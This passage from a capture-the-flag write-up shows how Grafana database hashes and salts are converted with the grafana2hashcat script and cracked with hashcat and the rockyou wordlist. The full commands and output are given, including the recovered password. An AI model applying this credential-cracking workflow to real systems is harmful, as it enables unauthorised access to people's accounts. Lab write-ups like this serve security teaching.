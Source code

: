 developer is a user!

#### Crack Hash

There’s no hashcat format that matches what’s in the Grafana DB. [This repo](https://github.com/iamaldi/grafana2hashcat) has a script to generate `hashcat` hashes from the hash and salt from the DB. I’ll make a file with the hash and salt:

```

oxdf@hacky$ cat grafana_hashsalt 
441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34,CFn7zMsQpf
7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960,4umebBJucv

```

This script will generate hashes:

```

oxdf@hacky$ python /opt/grafana2hashcat/grafana2hashcat.py grafana_hashsalt -o grafanahashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  grafana_hashsalt
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[+] Writing output to 'grafanahashes' file.
[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt

oxdf@hacky$ cat grafanahashes
sha256:10000:Q0ZuN3pNc1FwZg==:RBpxW9eI6SgXC+eVSxfLGd6DWi3t/ezoxlMnyx2bpr1H1w7bdCGwXZcGumFHy3GXOjQ=
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=

```

Now `hashcat` can break them:

```

$ hashcat grafanahashes_hashcat rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode 
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
                                                    
10900 | PBKDF2-HMAC-SHA256 | Generic KDF 
...[snip]...
sha256:10000:NHVtZWJCSnVjdg==:foAYpCEO+66xLwEVWApHb+j5ik+braJyDmUmVIYMWduTV3sSIBwBUSVjddb4g/G42WA=:bigbang
...[snip]...

```
